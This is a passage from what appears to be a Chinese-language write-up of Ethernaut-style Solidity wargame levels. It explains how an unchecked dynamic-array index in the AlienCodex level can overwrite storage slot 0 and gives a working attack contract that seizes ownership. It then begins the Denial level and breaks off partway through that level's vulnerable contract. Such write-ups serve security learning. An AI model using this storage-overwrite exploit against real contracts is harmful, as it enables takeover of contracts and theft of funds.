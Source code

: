 可以看到调用完makecontact就变成1了。

在这个合约里面，可以指定下标元素赋值，且没有检查。所以说我们只需要计算出codex数组和slot0的距离即可改变owner。

codex是一个32bytes的数组，在slot1中存储着他的长度。我们要计算出一个元素的下标，如果下标溢出，则会存储到slot0中。

在Solidity中动态数组内变量的存储位计算方法可以概括为： b[X] == SLOAD(keccak256(slot) + X)，在这个合约中，开头的slot为1，也就是他的长度。（换句话说，数组中某个元素的slot = keccak（slot数组）+ index）

因此第一个元素位于slot keccak256(1) + 0，第二个元素位于slot keccak256(1) + 1，以此类推。

所以我们要计算的下标就是令2^256 = keccak256(slot) + index，即index = 2^256 - keccak256(slot)

攻击代码：

```solidity
pragma solidity ^0.8.0;

interface IAlienCodex {
    function revise(uint i, bytes32 _content) external;
}

contract AlienCodex {
    address levelInstance;
    
    constructor(address _levelInstance) {
      levelInstance = _levelInstance;
    }
    
    function claim() public {
        unchecked{
            uint index = uint256(2)**uint256(256) - uint256(keccak256(abi.encodePacked(uint256(1))));
            IAlienCodex(levelInstance).revise(index, bytes32(uint256(uint160(msg.sender))));
        }
    }

}
```

## denial

### 题目

阻止其他人从合约中withdraw。

### 代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Denial {

    using SafeMath for uint256;
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address payable public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
```